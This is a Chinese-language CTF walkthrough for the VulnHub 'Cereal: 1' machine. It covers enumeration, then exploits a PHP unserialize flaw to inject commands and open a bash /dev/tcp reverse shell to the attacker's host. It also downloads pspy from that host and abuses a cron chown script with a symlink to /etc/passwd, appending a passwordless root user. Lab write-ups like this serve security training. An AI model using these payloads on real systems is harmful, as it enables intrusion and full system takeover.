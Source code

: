 靶机地址：[Cereal: 1 ~ VulnHub](https://www.vulnhub.com/entry/cereal-1,703/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.51"
# PORT      STATE SERVICE
# 21/tcp    open  ftp
# 22/tcp    open  ssh
# 80/tcp    open  http
# 139/tcp   open  netbios-ssn
# 445/tcp   open  microsoft-ds
# 3306/tcp  open  mysql
# 11111/tcp open  vce
# 22222/tcp open  easyengine
# 22223/tcp open  unknown
# 33333/tcp open  dgi-serv
# 33334/tcp open  speedtrace
# 44441/tcp open  unknown
# 44444/tcp open  cognex-dataman
# 55551/tcp open  unknown
# 55555/tcp open  unknown
sudo nmap -p "21,22,80,139,445,3306,11111,22222,22223,33333,33334,44441,44444,55551,55555" -sV "192.168.1.51"
# 21/tcp    open  ftp        vsftpd 3.0.3
# 22/tcp    open  ssh        OpenSSH 8.0 (protocol 2.0)
# 80/tcp    open  http       Apache httpd 2.4.37 (())
# 139/tcp   open  tcpwrapped # 识别失败
# 445/tcp   open  tcpwrapped # 识别失败
# 3306/tcp  open  mysql?
# 11111/tcp open  tcpwrapped # 识别失败
# 22222/tcp open  tcpwrapped # 识别失败
# 22223/tcp open  tcpwrapped # 识别失败
# 33333/tcp open  tcpwrapped # 识别失败
# 33334/tcp open  tcpwrapped # 识别失败
# 44441/tcp open  http       Apache httpd 2.4.37 (())
# 44444/tcp open  tcpwrapped # 识别失败
# 55551/tcp open  tcpwrapped # 识别失败
# 55555/tcp open  tcpwrapped # 识别失败
```

逐个尝试 先试一下FTP
```Shell
searchsploit vsftpd 3.0.3
# 只有一个拒绝服务攻击的 对渗透没什么帮助

# 尝试匿名登录
ftp 192.168.1.51
# Name: anonymous
# Password:
# 登录成功 但是无法下载文件
```

访问80的服务端口看看，像是一个Apache的测试页面，没什么特别的，路径扫描一下
```Shell
sudo dirsearch -u "http://192.168.1.51"
# /admin/
# /phpinfo.php
# /blog/
```
发现有些内容不能正确加载，修改hosts文件
```Shell
# cereal.ctf
192.168.1.51    cereal.ctf
```
没啥用，还是加载不了，最后发现是代理没关。。。吐了，下次要注意
```Shell
sudo dirsearch -u "http://cereal.ctf/blog/"
# /blog/wp-admin
```
是WordPress网站，没发现啥其它特别的，再看看44441端口
```Shell
sudo dirsearch -u "http://cereal.ctf:44441"
```
还是没什么发现，查了一下，需要子域名枚举
```Shell
gobuster vhost -u http://cereal.ctf:44441 --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
# Found: secure.cereal.ctf:44441
```
把这个域名也绑定上，访问看看，是ping指令的参数
尝试命令注入，失败了
拦截请求看看，参数如下
```
obj=O%3A8%3A%22pingTest%22%3A1%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A9%3A%22127.0.0.1%22%3B%7D&ip=127.0.0.1
```
即
```
O:8:"pingTest":1:{s:9:"ipAddress";s:9:"127.0.0.1";}
127.0.0.1
```
上面的参数指定反序列化的类型，可能存在不安全的反序列化漏洞
想要利用，还需要知道一些源码，找到可以利用的类型，结合之前页面上的信息，找一些备份文件
```Shell
sudo ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://secure.cereal.ctf:44441/FUZZ
# back_en                 [Status: 301, Size: 247, Words: 14, Lines: 8, Duration: 22ms]
```
发现一个 `403 Forbidden` 的目录，对其进行进一步扫描
```Shell
gobuster dir -u http://secure.cereal.ctf:44441/back_en/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x bak
# /index.php.bak        (Status: 200) [Size: 1814]
```
查看一下源码
```Shell
curl http://secure.cereal.ctf:44441/back_en/index.php.bak
```
内容如下
```php
<?php

class pingTest {
        public $ipAddress = "127.0.0.1";
        public $isValid = False;
        public $output = "";

        function validate() {
                if (!$this->isValid) {
                        if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
                        {
                                $this->isValid = True;
                        }
                }
                $this->ping();

        }

        public function ping()
        {
                if ($this->isValid) {
                        $this->output = shell_exec("ping -c 3 $this->ipAddress");
                }
        }

}

if (isset($_POST['obj'])) {
        $pingTest = unserialize(urldecode($_POST['obj']));
} else {
        $pingTest = new pingTest;
}

$pingTest->validate();

// ...
?>
```
查看源码可以得知，需要将 `isValid` 置为 `true` ，才可以跳过检测
写一段php代码生成负载
```php
<?php
class pingTest {
        public $ipAddress = "127.0.0.1";
        public $isValid = True;
}

$obj = new pingTest();
echo serialize($obj);
echo "\n";
echo urlencode(serialize($obj));
echo "\n";
?>
```
这样的话可以通过修改 `ipAddress` 进行命令注入
```
127.0.0.1;id
```
成功了，进一步利用
```
127.0.0.1;which nc;which python2;which python3;
```
一个都没有，只能直接通过bash反弹shell
```
127.0.0.1;bash -i >& /dev/tcp/192.168.1.26/4444 0>&1;
```
成功获取到了反弹shell
交互升级
```Shell
SHELL=bash script -q /dev/null
```
提权
```Shell
uname -a
# Linux cereal.ctf 4.18.0-240.22.1.el8.x86_64 #1 SMP Mon Apr 12 04:29:16 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
ls -l /etc/passwd
# -rwxrwxr-x. 1 root root 1549 May 29  2021 /etc/passwd
# 属组有权限 很明显不同寻常

wget http://192.168.1.26:7331/pspy64
chmod +x pspy64
./pspy64
# /bin/bash /usr/share/scripts/chown.sh
```
过了一会儿发现一个可以进程，查看一下
```Shell
cat /usr/share/scripts/chown.sh
# chown rocky:apache /home/rocky/public_html/*
```
会定期将整个目录下的文件，属主改为rocky，属组改为apache
接下来就是如何利用，更改符号链接的所有者也会更改链接文件的所有者
结合之前收集到的信息：密码文件的属组有修改权限，可以为密码文件在当前目录下建立一个软连接，然后等定时脚本执行过，属组改为当前用户apache再去修改root密码
```Shell
ln -s /etc/passwd /home/rocky/public_html/passwd
# ln -sf /etc/passwd /home/rocky/public_html/passwd
ls -l /etc/passwd
# -rwxrwxr-x. 1 root root 1549 May 29  2021 /etc/passwd
# 经过漫长的等待
ls -l /etc/passwd
# -rwxrwxr-x. 1 rocky apache 1610 Dec  7 07:43 /etc/passwd
echo "aaaabbbb::0:0:root:/root:/bin/bash" >> /etc/passwd
su aaaabbbb
```

其它提权方式：[[20 CVE#CVE-2022-2588|CVE-2022-2588]]
